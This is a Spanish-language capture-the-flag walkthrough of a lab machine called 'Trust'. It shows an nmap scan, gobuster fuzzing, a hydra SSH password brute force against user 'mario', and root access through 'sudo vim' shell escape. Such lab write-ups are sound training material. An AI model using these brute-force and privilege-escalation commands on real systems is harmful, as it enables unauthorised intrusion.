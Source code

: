 # MÁQUINA TRUST

Lo primero que deberemos de hacer será realizar un escaneo de puertos a la máquina, para ello usaremos el comando nmap:

```shell
nmap -p- -sS -sC -sV -vvv --min-rate 5000 -Pn 172.18.0.2
```

![NMAP](https://github.com/Isma-yo/photos/blob/main/Trust/foto.jpg)

Observamos que están abiertos tanto el puerto 80 como el 22, así que vamos a ver el contenido de la página web:

![WEB](https://github.com/Isma-yo/photos/blob/main/Trust/foto2.jpg)

Después de observar que no hay nada en el código fuente haremos fuzzinga para encontrar ficheros o directorios que no se puedan ver a simple vista:

```shell
gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```
![FUZZ](https://github.com/Isma-yo/photos/blob/main/Trust/foto3.jpg)

Vemos que hemos encontrado un fichero llamado secret.php, así que vamos a ver su contenido:

![SECRET](https://github.com/Isma-yo/photos/blob/main/Trust/foto4.jpg)

No vemos nada extraño en la página web, sin embargo podemos observar que nos da el nombre de un usuario "Mario", por lo que vamos a intentar conseguir su contraseña a través de un ataque de fuerza bruta:

```shell
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```

![HYDRA](https://github.com/Isma-yo/photos/blob/main/Trust/foto5.jpg)

Ya hemos encontrado la contraseña del usuario, por lo que vamos a acceder por SSH a la máquina con las credenciales que hemos obtenido:

![SSH](https://github.com/Isma-yo/photos/blob/main/Trust/foto6.jpg)

Si ejecutamos el comando sudo -l vemos que podemos ejecutar el comando vim como cualquier usuario, así que vamos a irnos a la página de GTFOBins y vamos a ver como escalar privilegios usando vim:

![SUDO](https://github.com/Isma-yo/photos/blob/main/Trust/foto7.jpg)

https://gtfobins.github.io/gtfobins/vim/#sudo

```shell
sudo vim -c ':!/bin/sh'
```

![ROOT](https://github.com/Isma-yo/photos/blob/main/Trust/foto8.jpg)

Y ya somos root!







